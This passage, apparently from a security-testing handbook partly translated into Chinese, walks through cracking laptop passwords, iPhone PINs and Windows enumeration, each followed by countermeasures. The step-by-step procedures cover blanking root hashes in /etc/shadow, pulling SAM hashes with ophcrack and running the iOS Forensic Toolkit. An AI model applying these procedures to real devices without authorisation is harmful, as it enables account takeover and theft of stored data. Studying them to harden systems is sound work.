可以说，任何企业安全的最大威胁是未加密的笔记本电脑。尽管媒体已广泛报道并提醒人们这一不可饶恕的安全漏洞，它仍然在企业中普遍存在。本节介绍可用于破解 Windows、Linux 或 macOS X 系统上未加密笔记本电脑本地管理员（或其他）密码的工具，并讨论相应的基本防范措施。

### 选择工具

我最喜欢用于演示运行 Windows 且未加密的笔记本电脑风险的工具是 ElcomSoft System Recovery（[`www.elcomsoft.com/esr.html`](https://www.elcomsoft.com/esr.html)）。你可以将该工具烧录到 DVD 或 USB 设备上，然后启动目标系统，用它来恢复或重置密码，如图 11-1 所示。



FIGURE 11-1: ElcomSoft System Recovery 非常适合破解和重置未受保护笔记本电脑的 Windows 密码。

该工具提供两种操作方式：重置本地管理员（或其他）密码，或直接对所有密码进行破解。操作非常简单，且对最新操作系统（包括 Windows 10）同样有效。

你也可以使用较旧的工具 NTAccess（[www.mirider.com/ntaccess.html](http://www.mirider.com/ntaccess.html)）来重置本地 Windows 帐户。该程序外观简陋，功能实用，能够完成任务。除此之外，还有其他工具可供选择。正如本节后面讨论的 ophcrack，ElcomSoft 和 NTAccess 都能很好地证明加密笔记本电脑硬盘的必要性。

人们常说他们的笔记本电脑上没有重要或敏感信息，但事实并非如此。即使是用于培训或销售的看似无害的笔记本电脑，也可能包含大量敏感信息，一旦丢失或被盗，就会对企业造成损害。此类信息包括用户从网络复制到本地工作的电子表格、存储的 VPN 连接凭证、浏览器缓存的浏览历史，以及（更糟）用户保存的网站密码。

在重置或破解本地管理员（或其他）账户后，你可以登录 Windows 并获得完整的系统访问权限。通过使用 WinHex（[www.winhex.com/winhex](http://www.winhex.com/winhex)）、AccessEnum（[`technet.microsoft.com/en-us/library/bb897332.aspx`](https://technet.microsoft.com/en-us/library/bb897332.aspx)）或类似工具，你可以挖掘敏感信息、远程网络连接以及缓存的 Web 连接，以展示业务风险。如果想进一步深入，还可以使用 ElcomSoft 的 Phone Breaker、Proactive Password Auditor 和 Advanced EFS Data Recovery 等工具，从 Windows 系统中发现更多信息。Passware（[`www.passware.com`](https://www.passware.com)）同样提供商业级工具。

如果想在基于 Linux 的笔记本电脑上进行类似检查，可以启动 Knoppix（[www.knoppix.net](http://www.knoppix.net)）或其他“Live” Linux 发行版，然后编辑本地 `passwd` 文件（通常是 `/etc/shadow`），直接修改或替换密码。将根用户（或其他用户）条目中第一个冒号和第二个冒号之间的加密代码删除，或复制其他用户条目的密码粘贴到该位置。Passware 的 Passware Kit Forensic 可用于解密使用 FileVault2 加密的 Mac 系统。

如果预算有限且需要免费的 Windows 密码破解方案，可以使用 ophcrack 作为独立程序在 Windows 中操作，步骤如下：

1.  **从** [`http://ophcrack.sourceforge.net`](http://ophcrack.sourceforge.net) **下载源文件。**

2.  **从** [`http://ophcrack.sourceforge.net/download.php`](http://ophcrack.sourceforge.net/download.php) **提取并安装最新版本。**

3.  **通过开始菜单启动 ophcrack 图标。**

4.  **点击“Load”按钮，选择要运行的测试类型。**

   在图 11-2 中，我正连接到名为 server1 的远程服务器。这样，ophcrack 会使用我本地登录的用户名对远程服务器进行身份验证，并运行 pwdump 代码从服务器的 SAM 数据库中提取密码哈希。你也可以加载本地机器的哈希，或从之前的 pwdump 会话中导入哈希。

   提取的密码哈希用户名类似于图 11-3 所示的内容。


5. **点击“Launch”图标以启动彩虹破解过程。**

如果您看到密码哈希仅在“NT Hash”列中（如图 11-3 所示），请确保您已从[`http://ophcrack.sourceforge.net/tables.php`](http://ophcrack.sourceforge.net/tables.php)或其他位置下载了正确的哈希表。一个适合开始使用的哈希表是 Vista 特别版（8.0GB）。要加载新表，请点击 ophcrack 窗口顶部的“Tables”图标，如图 11-4 所示。



FIGURE 11-2:  Loading password hashes from a remote SAM database in ophcrack.



FIGURE 11-3:  Usernames and hashes extracted via ophcrack.


FIGURE 11-4:  Loading the required hash tables in ophcrack.

如果需要，可在步骤 5 中重新启动彩虹破解过程。该过程可能需要几秒钟到几天（或更长），具体取决于您的计算机速度和正在破解的哈希复杂度。

可在[`http://ophcrack.sourceforge.net/download.php?type=livecd`](http://ophcrack.sourceforge.net/download.php?type=livecd)处下载的基于 Linux 的可启动 ophcrack 版本，让您无需登录或安装任何软件即可启动系统并开始破解密码。

I *highly* recommend that you use ophcrack’s LiveCD on a sample laptop computer or two to demonstrate how simple it is to recover passwords and, subsequently, sensitive information from laptops that don’t have encrypted hard drives. This tool is amazingly simple, yet many people still refuse to invest money in full-disk encryption software, even the free and enterprise-ready Microsoft BitLocker. ElcomSoft System Recovery is another great tool for this exercise.

### Applying countermeasures

The best safeguard against a hacker using a password reset program against your systems is encrypted hard drives. You can use BitLocker in Windows, WinMagic SecureDoc ([`https://www.winmagic.com/products`](https://www.winmagic.com/products)), or another preferred endpoint security product for the platform your systems are running on.

Power-on passwords set in the BIOS can be helpful as well, but they’re often mere bumps in the road. All a criminal has to do is reset the BIOS password or, better, remove the hard drive from your lost system and access it from another machine. You also need to ensure that people can’t gain unauthorized physical access to your computers. When a hacker has physical access and your drives aren’t encrypted, all bets are off. That said, full-disk encryption isn’t foolproof; see the nearby sidebar “The fallacy of full-disk encryption.” The good news is that more recent computers with Unified Extensible Firmware Interface (UEFI) are more resilient to these types of attacks.

## Cracking Phones and Tablets

I don’t envy IT administrators and information security managers for many reasons, but especially when it comes to the *bring your own device* (BYOD) movement taking place in business today. With BYOD, you have to trust that your users are making good decisions about security, and you have to figure out how to manage every device, platform, and app. This management task is arguably the greatest challenge that IT professionals have faced to this point. Further complicating matters, criminal hackers, thieves, and other hooligans are doing their best to exploit this complexity, creating serious business risks. The reality is that few businesses — and individuals — have their phones and tablets properly secured.

Plenty of vendors claim that their mobile device management (MDM), enterprise mobility management (EMM), or unified endpoint management (UEM) solutions are the answer to mobile device woes. They’re right … to an extent. These systems have controls that separate personal information from business information and ensure that the proper security controls are enabled at all times, which is a big leap toward locking down the mobile enterprise.

One of the best things you can do to protect phones and tablets from unauthorized use is implement this nifty security control that dates back to the beginning of computers: *passwords*. Yep, your phone and tablet users should employ good old-fashioned passwords (technically, passphrases) that are easy to remember but hard to guess. Passwords are among the best controls you can have, yet there are plenty of mobile devices with no passwords or passwords that are easily cracked.

Starting with iOS 9, iOS devices have come with a six-character passcode default. Android Lollipop originally defaulted to encrypting the entire device, although that setting was reversed after complaints about performance degradation.

In the following section, I demonstrate accessing mobile devices with a commercial forensics tool. Keep in mind that such tools are typically restricted to law enforcement personnel and security professionals, but they could certainly end up in the hands of the bad guys. Using such tools for your own information security testing can be a great way to demonstrate the business risk and make the case for better mobile controls.

Mobile apps can introduce a slew of security vulnerabilities into your environment, especially certain apps available for Android via Google Play that aren’t properly vetted. In recent source-code analysis with Checkmarx’s CxSuite (see Chapter 15), I’ve found these apps to have the same flaws as traditional software, such as SQL injection, hard-coded encryption keys, and buffer overflows that can put sensitive information at risk. The threat of malware is there as well. Mobile apps are yet another reason to get your mobile environment under control by using, at minimum, a proven MDM system such as MaaS360 ([`www.maas360.com`](http://www.maas360.com)) or AirWatch ([`www.air-watch.com`](http://www.air-watch.com)).

### Cracking iOS passwords

I venture to guess that many phone and tablet passwords (really, just four-digit PINs or passcodes) can be guessed outright. When a mobile device gets lost or stolen, all that the person who recovers it has to do is try basic number combinations such as 1234, 1212, or 0000. Soon, *voilà!* — the system is unlocked.

Many phones and tablets running iOS and Android are configured to wipe the device if the incorrect password is entered a certain number of times (often 10 failed attempts). This security control is reasonable indeed. But what else can you do? Some commercial tools can be used to crack simple passwords or PINs and recover information from lost or stolen devices or devices undergoing a forensics investigation.

ElcomSoft’s iOS Forensic Toolkit ([`https://www.elcomsoft.com/eift.html`](https://www.elcomsoft.com/eift.html)) provides a way to demonstrate how easily passwords and PINs on iOS-based phones and tablets can be cracked through iOS version 7. Here’s how:

1.  **Plug the iOS device (iPhone, iPod, or iPad) into your test computer, and place it in Device Firmware Upgrade (DFU) mode.**

    To enter DFU mode, power the device off, hold down the Home button (bottom center) and sleep button (often, the top-right corner) at the same time for 10 seconds, and continue holding down the Home button for another 10 seconds. The device’s screen goes blank.

2.  **Load the iOS Forensic Toolkit by inserting your USB license dongle into your test computer and running `Tookit.cmd`.**

    You see the screen shown in Figure 11-5.


3. 加载移动设备的 iOS 取证工具 Ramdisk，通过选择选项 2（LOAD RAMDISK）完成此操作。

加载 RAMDISK 代码可使你的测试计算机与移动设备通信，并运行用于破解密码（以及其他操作）所需的工具。

4. 如图 11-6 所示，选择已连接的 iOS 设备。

我选择了选项 14，因为我在使用较旧的 iPhone 4（GSM）进行测试。

工具包与设备建立连接并确认加载成功，如图 11-7 所示。你的移动设备屏幕中间应能看到 ElcomSoft 的标志。

5. 要破解设备的密码或 PIN，请在主菜单中选择选项 6（GET PASSCODE）。

iOS 取证工具会提示你保存密码到文件。按回车键接受默认 `passcode.txt` 即可。破解过程开始，运气好的话，密码会被找到并显示，如图 11-8 所示。

没有密码的手机和平板很糟糕，但四位数 PIN（如本例中的）也不算好。请谨慎！

你也可以使用 iOS 取证工具复制文件，甚至破解钥匙链（选项 5 [GET KEYS]），以获取 iTunes 备份中保护设备的密码。

使用 ElcomSoft 的 iOS 取证工具破解 iOS 8 及更高版本现在不再那么有效，因为 Apple 开始真正加强操作系统。虽然 Apple iOS 仍有缺陷，但最近在 iOS 9 中，一个漏洞让攻击者能够绕过登录屏。

如果有什么需要注意的，那就是你的业务信息（几乎肯定存储在手机和平板上）在员工设备被执法人员没收时将如何处理。当然，这些执法人员会遵循链条管理程序，但总体而言，他们长期保护信息 *保持* 安全的动力很小。



FIGURE 11-5:  iOS 取证工具的主页面。



FIGURE 11-6:  从列表中选择合适的 iOS 设备。



FIGURE 11-7:  iOS 取证工具 Ramdisk 成功加载。



FIGURE 11-8:  在 iPhone 上破解四位数 PIN。

请小心如何同步移动设备，尤其是文件备份的存储位置。备份可能存储在云端（即“蓝天大海”），这意味着你无法真正判断个人和业务信息的安全性。另一方面，当文件和备份未加密、密码较弱或存储在未加密的笔记本电脑上时，所有数据仍然面临风险，因为现有的工具可以破解用于保护这些信息的加密。ElcomSoft Phone Breaker（`https://www.elcomsoft.com/eppb.html`）可用于解锁 BlackBerry 和 Apple 设备的备份，以及恢复 iCloud 和 Windows Live 等在线备份！

### 对密码破解采取防范措施

防止密码破解的最现实方法是要求 —  — 并持续执行 —  — 强密码，例如由五位或更多数字组成的多位数 PIN。更佳的是，要求复杂的通过短语，易记却几乎无法破解，例如 `Progressive_r0ck_rules`！假设（笑）用户会更新设备到最新的 iOS 和 Android 版本，你不应有问题。MDM（移动设备管理）或 UEM（统一终端管理）控制可帮助你执行此策略。你可能会从员工和管理层获得反对意见，但强通过短语和更新软件是防止此类攻击的唯一可靠手段。我在 `第 20 章` 中介绍了如何获得支持以推进安全计划。祝好运！

## Part 4

## 黑客操作系统

IN THIS PART …

了解 Windows 弱点及应对措施。

了解 UNIX、Linux 和 macOS 系统并非人们常说的那样安全。

第 12 章

## Windows

IN THIS CHAPTER

`扫描 Windows 系统`

`在不登录的情况下获取 Windows 信息`

`发现 Windows 安全漏洞`

`利用 Windows 漏洞`

`降低 Windows 安全风险`

Microsoft Windows（包括 Windows 7、Windows Server 2012 和 2016、Windows 8.1 以及最新的 Windows 10）是全球使用最广泛的操作系统（OS），也是被滥用最严重的系统。这是否因为微软对安全的重视不如其他操作系统供应商？简短答案是：不是。诚然，Windows NT 时代曾有许多安全漏洞被忽视，但微软产品在当今网络中无处不在，使其成为攻击者的首选目标。因此，微软产品常常成为坏人攻击的焦点。正面方面是，黑客们推动了更好安全的需求！

许多新闻中报道的安全漏洞并非新事物；它们是长期存在的漏洞的变体。你听过“事物变了，但本质未变”这句话，这在安全领域同样适用。大多数 Windows 攻击如果补丁正确应用，都是可以预防的。因此，安全管理不善往往是 Windows 攻击成功的真正原因，尽管微软承担责任并承担其后果。

除了第 8 章中涵盖的密码攻击外，针对 Windows 系统的许多攻击也是可能的。通过网络连接到系统并使用工具提取信息，许多测试甚至不需要攻击者对远程系统进行身份验证。所有恶意人员需要在你的网络中找到一台配置默认、未受个人防火墙保护且未及时打补丁的 Windows 计算机。

当你在网络中进行探查时，你可能会惊讶于有多少 Windows 计算机存在安全漏洞。你会更加惊讶于使用像 Metasploit 这样的工具轻松获得 Windows 的完全远程控制是多么容易 —  — 在拥有有效用户名和密码（无论是知道还是通过第 8 章讨论的密码破解技术或其他本章方法获取）后，你可以进一步利用 Windows 的其他方面。

本章展示了如何测试 Windows 中一些低挂果实（最常导致问题的漏洞），并列出了保护 Windows 系统的对策。

## 介绍 Windows 漏洞


鉴于 Windows 的易用性、其企业级 Active Directory 服务以及功能丰富的 .NET 开发平台，大多数组织为大部分网络和计算需求使用 Microsoft 平台。许多企业——尤其是中小型企业——完全依赖 Windows 操作系统进行网络使用。许多大型组织同样在 Windows 平台上运行关键服务器，如 Web 服务器和数据库服务器。如果安全漏洞未得到妥善处理和管理，它们可能导致网络或整个组织（无论大小）陷入瘫痪。

当 Windows 及其他 Microsoft 软件遭到攻击，特别是受 Internet 病毒或蠕虫的攻击时，数以百万计的组织和数以亿计的计算机会受到影响。许多针对 Windows 的著名攻击可能导致以下问题：

*   敏感信息泄露，包括包含医疗信息和信用卡号的文件。

*   密码被破解并用于发起其他攻击。

*   系统因拒绝服务（DoS）攻击而宕机。

*   获得全面的远程控制权。

*   整个数据库被复制或删除。

当未受保护的 Windows 系统遭到攻击时，全球数以千计的计算机会面临严重后果。

### 选择工具

数百种 Windows 黑客和测试工具可供使用。关键在于找到一套符合您需求且您熟悉使用的工具。

许多安全工具，包括本章描述的部分工具，仅在特定版本的 Windows 上运行。本章中列出的每种工具的最新版本应与当前受支持的 Windows 版本兼容，但实际兼容性可能有所不同。

我发现，在 Windows 上安装越多安全工具和其他高级用户应用程序——尤其是与网络驱动程序和 TCP/IP 栈深度集成的程序——Windows 越容易出现不稳定，表现为性能变慢、一般性不稳定以及偶尔的蓝屏死机（Blue Screen of Death）。不幸的是，通常唯一的解决办法是重新安装 Windows 以及所有应用程序。经过多年定期重新构建测试系统的经历后，我终于意识到应购买 VMware Workstation 并购买一台专用计算机，以便在不担心安装的软件影响其他工作的前提下随意在其上部署测试工具。（啊，那些 DOS 和 Windows 3.*x* 时代的记忆，那时一切都简单得多！）

### 免费 Microsoft 工具

您可以使用以下免费 Microsoft 工具来测试系统的各种弱点：

*   **内置 Windows 程序** 用于 NetBIOS 和 TCP/UDP 服务枚举，例如以下三种：

    *   `nbtstat` 用于获取 NetBIOS 名称表信息。

    *   `netstat` 用于显示本地 Windows 系统上打开的端口。

    *   `net` 用于运行各种网络命令，包括在通过 Metasploit 获得远程命令行后查看远程 Windows 系统上的共享以及添加用户帐户。

*   **Microsoft Baseline Security Analyzer (MBSA)** ([`https://www.microsoft.com/en-us/download/details.aspx?id=7558`](https://www.microsoft.com/en-us/download/details.aspx?id=7558)) 用于检查缺失的补丁和基本 Windows 安全设置。

*   **Sysinternals** ([`https://docs.microsoft.com/en-us/sysinternals`](https://docs.microsoft.com/en-us/sysinternals)) 用于在本地和通过网络监控、操控 Windows 服务、进程和资源。

### 一体化评估工具

一体化工具执行多种安全测试，包括以下内容：

*   端口扫描。

*   操作系统指纹识别。

*   基本密码破解。

*   对工具在 Windows 系统上发现的各种安全弱点进行详细的漏洞映射。

我在工作中经常使用这些工具，效果很好：

*   GFI LanGuard ([`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3))

*   Nexpose ([`https://www.rapid7.com/products/nexpose`](https://www.rapid7.com/products/nexpose))

### 任务特定工具

以下工具执行更具针对性的任务，用于发现 Windows 相关的安全缺陷。这些工具能够提供对 Windows 系统的详细洞察，并提供您可能从一体化评估工具中获取不到的信息：

*   **Metasploit Framework 和 Metasploit Pro** ([`https://www.metasploit.com`](https://www.metasploit.com)) 用于利用 Nessus、Nexpose 等工具发现的漏洞，获取远程命令行、添加用户、设置远程后门等。

*   **NetScanTools Pro** ([`https://www.netscantools.com`](https://www.netscantools.com)) 用于端口扫描、ping 掃描和共享枚举。

*   **SoftPerfect Network Scanner** ([`https://www.softperfect.com/products/networkscanner`](https://www.softperfect.com/products/networkscanner)) 用于主机发现、端口扫描和共享枚举。

*   **TCPView** ([`https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview`](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview)) 用于查看 TCP 和 UDP 会话信息。

*   **Winfo** ([`www.ntsecurity.nu/toolbox/winfo`](http://www.ntsecurity.nu/toolbox/winfo)) 用于空闲会话枚举，以获取安全策略、本地用户帐户和共享等配置信息。

请记住，禁用 Windows 防火墙（或测试系统上运行的第三方防火墙）可以加速扫描。对防病毒软件同样适用——但需谨慎。如果可能，在专用系统或虚拟机上进行安全测试，这样可以最大程度降低测试结果对您其他工作的影响。

## 收集 Windows 漏洞信息

在评估 Windows 漏洞时，首先通过扫描您的计算机来了解攻击者能看到什么。

本章中的漏洞利用是针对防火墙内部、内部网络中的 Windows 系统运行的。除非另有说明，本章的所有测试均可针对所有 Windows 操作系统版本进行。本章的攻击意义重大，值得进行检测，无论您当前的环境如何。您的结果会因 Windows 的具体版本、补丁级别以及您所实施的系统硬化程度而有所不同。

### 系统扫描

通过几个简单的过程可以识别 Windows 系统中的弱点。

### 测试

获取 Windows 系统信息的第一步是运行初始端口扫描，方法如下：

1.  **运行基础扫描以查找每个 Windows 系统上打开的端口。**

    使用端口扫描工具（如 NetScanTools Pro）扫描 TCP 端口。NetScanTools Pro 的结果（如 Figure 12-1 所示）在 Windows 10 系统上显示了若干潜在漏洞的开放端口，包括广受欢迎且易受攻击的 NetBIOS（TCP 和 UDP 端口 139）以及 SQL Server 浏览器服务（UDP 端口 1434）。

2.  **通过使用一体化评估工具（如 LanGuard）或专用工具（如 NetScanTools SMB Scanner）进行系统枚举（如扫描共享和 SMB 协议的版本）。**

    Figure 12-2 展示了一次 SMB 扫描的结果，显示系统上运行 SMB 版本 1，使其易受 WannaCry 勒索软件等攻击的威胁。


如果需要快速识别正在运行的 Windows 版本，可以使用 Nmap (`https://nmap.org/download.html`) 并加 `-O` 选项，如 Figure 12-3 所示。

其他操作系统指纹识别工具可用，但我发现 Nmap 以及商业扫描器如 Nexpose 是最准确的。

3. **确定潜在的安全漏洞。**

漏洞分析可能是主观的，且因系统而异，但请寻找有趣的服务和应用，并从该点开始。



FIGURE 12-1:  使用 NetScanTools Pro 对 Windows 10 系统进行端口扫描。



FIGURE 12-2:  使用 NetScanTools SMB Scanner 收集 SMB 版本。



FIGURE 12-3:  使用 Nmap 确定 Windows 版本。

#### 防御系统扫描

通过在网络和 Windows 主机上实施适当的安全设置，您可以防止外部攻击者或恶意内部用户收集有关 Windows 系统的特定信息。您有以下选项：

*   对运行 Internet Information Services (IIS) 的系统使用网络防火墙或 Web 应用防火墙。

*   在每个系统上使用 Windows 防火墙或其他个人防火墙软件。您可能需要专门阻止 Windows 网络端口，如 RPC（端口 135）和 NetBIOS（端口 137–139 和 445）。请注意，此操作可能会破坏 Windows 网络通信，尤其是在服务器上。

*   禁用不必要的服务，以免在建立连接时显现。

#### NetBIOS

您可以通过 NetBIOS（Network Basic Input/Output System）功能和程序来收集 Windows 信息。NetBIOS 允许应用程序进行网络调用并与局域网内的其他主机通信。

如果未正确保护，以下 Windows NetBIOS 端口可能会被 compromise：

*   用于网络浏览的 UDP 端口：

    *   端口 137（NetBIOS 名称服务，也称为 WINS）

    *   端口 138（NetBIOS 数据报服务）

*   用于 Server Message Block (SMB) 的 TCP 端口：

    *   端口 139（NetBIOS 会话服务，也称为 CIFS）

    *   端口 445（在 TCP/IP 上运行 SMB，无需 NetBIOS）

#### 默认

下文两节描述的默认操作可以在未受保护的运行 NetBIOS 的系统上执行。

#### UNAUTHENTICATED ENUMERATION

在执行未经验证的枚举测试时，您可以通过以下两种方式收集本地或远程系统的配置信息：

*   使用全能扫描器，如 LanGuard 或 Nexpose。

*   使用内置于 Windows 的 nbtstat 程序。（nbtstat 代表 NetBIOS over TCP/IP Statistics。）

Figure 12-4 展示了使用简单 nbtstat 查询在 Windows 7 系统上可以收集的信息。



FIGURE 12-4:  使用 nbtstat 在 Windows 7 系统上收集信息。

nbtstat 显示远程计算机的 NetBIOS 名称表，该表通过 `nbtstat -A` 命令获取。该命令显示计算机名称、域名称以及媒体访问控制（MAC）地址。

不需要像 Nexpose 这样的高级程序即可从 Windows 系统中收集这些基础信息。商业软件（如 Nexpose）提供的图形界面虽然美观且易用，但您可以使用单一工具即可获取所需信息。

#### SHARES

Windows 使用网络共享来共享系统中的特定文件夹或驱动器，以便其他用户在网络中访问。共享易于设置，且能够在不涉及服务器的情况下与网络中的其他用户共享文件。然而，共享经常配置不当，导致用户、恶意软件以及已进入网络的外部攻击者能够访问他们不应获得的信息。您可以使用 LanGuard 内置的 Share Finder 工具扫描整个 IP 地址范围，以查找 Windows 共享，如 Figure 12-5 所示。



FIGURE 12-5:  使用 LanGuard 扫描网络以查找 Windows 共享。

Everyone 组对 THINKPAD 主机上的 LifeandHealth 共享拥有完全共享和文件访问权限。我经常看到类似情况：有人共享本地驱动器以便他人访问。问题在于，此人往往忘记撤销权限，留下一个安全漏洞。

[Figure 12-5] 中显示的共享正是恶意内部人员所寻找的，因为共享名称暗示了如果攻击者连接到共享，可能访问的文件类型。发现这些共享后，攻击者通常会进一步探查，看是否能浏览并访问共享内的文件。本章后期以及 第 16 章 将讨论共享和敏感信息。

#### 防御 NetBIOS 攻击

您可以实施以下安全措施，以最大程度降低 Windows 系统上 NetBIOS 和 NetBIOS over TCP/IP 的攻击风险：

*   使用网络防火墙。

*   在每个系统上使用 Windows 防火墙或其他个人防火墙软件。

*   禁用 Windows 文件和打印共享（该设置位于 Windows 控制面板）。在 Windows 8.1 和 Windows 10 中，路径为控制面板 > 网络和 Internet > 网络和共享中心 > 更改高级共享设置。

*   教育用户了解启用不当安全访问控制的文件共享的风险。这些风险在本章以及 第 16 章 中也有讨论。共享无疑是当今网络中最大的风险之一。

